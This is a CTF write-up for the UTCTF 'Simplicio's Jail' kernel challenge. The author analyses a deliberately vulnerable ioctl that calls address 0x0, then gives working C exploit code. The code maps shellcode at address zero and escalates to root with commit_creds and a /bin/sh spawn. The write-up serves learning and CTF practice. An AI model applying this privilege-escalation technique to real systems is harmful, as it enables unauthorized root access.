

# Simplicio's Jail (kernel, arbitrary write, -smep, -smap, -kaslr)

I havn't been able to take part in UTCTF as I've been away for the weekend. I've saw this challenge when I camed back and I've decided to try it out. I will only focus on the kernel part of the challenge assuming that I have a full control to low priv shell on target machine.

## Enumeration
We are given a standard pack for kernel challenges:
```
$ tar -xf simp.tar.gz
$ cd simp
$ ls
bzImage cmd.sh ramfs.cpio
```

First I needed an access to the driver binary:

```console
$ mkdir extracted
$ cd extracted
$ cat ../ramfs.cpio | cpio -idvm
.
lib
lib/modules
[...]
$ ls
bin  init  lib  pwnable  root
$ ls lib/modules/4.19.108/
simplicio.ko
```

pwnable is a first part of a challenge which I ignored and moved to kernel part straight away. Moreover in order to ease debugging I've modified init script:

```bash
#!/bin/sh

[...]

#timeout -t 120 -s KILL setsid cttyhack su -s /pwnable simplicio
/bin/sh

poweroff -f
```

and opened simplicio.ko under Ghidra. It is super small module. Here is a simplified source code:

```c
#define CMD_SHARE_FEET_PICS 0x100
#define CMD_VIEW_FEET_PICS 0x200


long share_feet_pics(void *arg) {
    /* Not immportant. */
}

long view_feet_pics(void *arg) {
     /* Not immportant. */
}

long simplicio_ioctl(struct file *pfile, int cmd, long arg) {
    switch (cmd) {
        case CMD_SHARE_FEET_PICS:
            return share_feet_pics(arg);

        case CMD_VIEW_FEET_PICS:
            return view_feet_pics(arg);

        default:
            return 0x0(arg);       
    }
}
```

I've pointed out that share_feet_pics and view_feet_pics are not immportant. This is because the vulnerability itself is already inside a simplicio_ioctl.
ioctl was implemented in form of a big switch function which is something very popular. If user invokes ioctl with CMD_VIEW_FEET_PICS, the view_feet_pics will be invoked. If user invokes ioctl with CMD_SHARE_FEET_PICS, the share_feet_pics will be invoked. If user invokes ioctl with any other argument, the kernel will crash as 0x0(arg) will be invoked.

## Exploitation 
I have to admit it took me more then a while before I've noticed that the 0x0(arg) leads to kernel takeover. Can you see it already?
Well, 0x0(arg) just tries to invoke a code under address 0x0. But this is a legal address! Of course the kernel crashes as the address space is large and the probability that there is a legitimate code under this address is very small. But as an attacker I could just place my shellcode under this address!

To allocate memory at a given address I've used mmap:

```c
int main() {
    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                                MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }
}
```

and by invoking ioctl with some invalid cmd (other than 0x100, 0x200) I could confirm under gdb that the kernel tried to execute my userland shellcode!

```c
int main() {
    int fd;

    fd = open("/dev/simplicio", O_RDWR, 0);
    if (fd < 0)
    {
        perror("[!] open failed");
        return -1;
    }

    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                                MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }
    /* To check*/
    memset(userland_shellcode, 0x41, PAGE_SIZE);

    /* Invoke shellcode with some invalid command to trigger userland_shellcode. */
    ioctl(fd, 8, NULL);
}
```

I've explained [here](https://github.com/kscieslinski/CTF/tree/master/pwn/hacklu2019/BabyKernel2) how to use gdb for kernel challenges.
So under gdb I've setup a hardware breakpoint on address 0x0:

```gdb
pwndbg> target remote :1234
pwndbg> hb *0x0
Hardware assisted breakpoint 1 at 0x0
pwndbg> c
Breakpoint 1, 0x0000000000000000 in ?? ()
pwndbg> x/1gx $rip
0x0:	0x4141414141414141
```

So the kernel tried to execute my shellcode. Note that this would not be possible if smep where enabled. 
The next question was how to abuse this in order to escalate to root. The standard way I wanted to follow was to call commit_creds(prepare_kernel_cred(0)) and then to spawn shell. I didn't liked the idea of writing all of this as a shellcode, so I decided to call my userland function from shellcode instead:



And the code:

```c

void spawn_shell()
{
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}

void userland_exp()
{
    commit_creds_func(prepare_kernel_cred_func(NULL));
    spawn_shell();
}

void copy_ptr(char *dst, void *ptr)
{
    uint64_t ptr_addr;
    *((uint64_t *)dst) = (uint64_t)ptr;
}

int main()
{
    int err, fd;
    char *userland_shellcode;
    uint64_t *ptr_addr;

    save_state();

    fd = open("/dev/simplicio", O_RDWR, 0);
    if (fd < 0)
    {
        perror("[!] open failed");
        return -1;
    }

    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                              MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }

    /* Kernel exploits are hard to write in assembly – make shellcode just invoke a userland funciton. */
    memset(userland_shellcode, 0, PAGE_SIZE);
    userland_shellcode[0] = 0xe8;
    copy_ptr(&userland_shellcode[1], &userland_exp - 5);

    /* Invoke shellcode with some invalid command to trigger userland_shellcode. */
    ioctl(fd, 8, NULL);

    close(fd);
    return 0;
}
```